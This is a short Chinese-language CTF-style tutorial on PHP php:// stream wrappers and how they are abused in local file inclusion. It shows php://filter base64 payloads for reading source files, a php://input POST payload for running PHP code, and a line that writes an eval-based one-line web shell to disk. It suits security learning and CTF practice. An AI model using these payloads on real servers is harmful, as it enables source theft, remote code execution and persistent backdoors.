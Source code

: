 php:// 协议

可以获取指定文件的源码，但是当它与include函数结合时，php://filter就会被当做php文件执行。所以我们一般对其进行编码，让其不执行。从而导致任意文件读取。

条件
allow_url_fopen:off/on都可以

allow_url_include :仅php://input php://stdin php://memory php://temp 需要on

作用：
php:// 访问各个输入/输出流（I/O streams），在CTF中经常使用的是php://filter和php://input，php://filter用于读取源码，php://input用于执行php代码。

说明：
php提供了一些杂项输入/输出 (IO)流，允许访问php输入输出流，错误描述符等

php://input 可以访问请求的原始数据的只读流，在post请求中访问post的data部分 ，
在enctype="multipart/form-data"(表单文件上传)的时候无效

php://output 只写的数据流，允许以print和echo 一样的方式写入到输出缓冲流

php://memory和php://temp:是类似文件包装器的数据流，允许读写临时数据，区别是：
php:memory:总是把数据存储在内存中
php://temp 会在内存量达到预定义的限制后存入临时文件中

php://filter 主要用于数据流打开时的筛选过滤应用，对于一体式（all-in one）文件函数非常有用，类似，readfile() 、file() 和file_get_contents() 在数据流内容读取之前没有机会应用其他过滤器

例子
1.php://filter/read=convert.base64-encode/resource=[文件名]读取文件源码（针对php文件需要base64编码）
2.php://input + [POST DATA]执行php代码

如http://127.0.0.1/include.php?file=php://input
[POST DATA部分]
<?php phpinfo(); ?>

若有写入权限，还可以写入一句话木马

http://127.0.0.1/include.php?file=php://input
[POST DATA部分]
<?php fputs(fopen('1juhua.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
 

POC:
php://filter/read=convert.base64-encode/resource=[文件名]读取文件源码（针对php文件需要base64编码）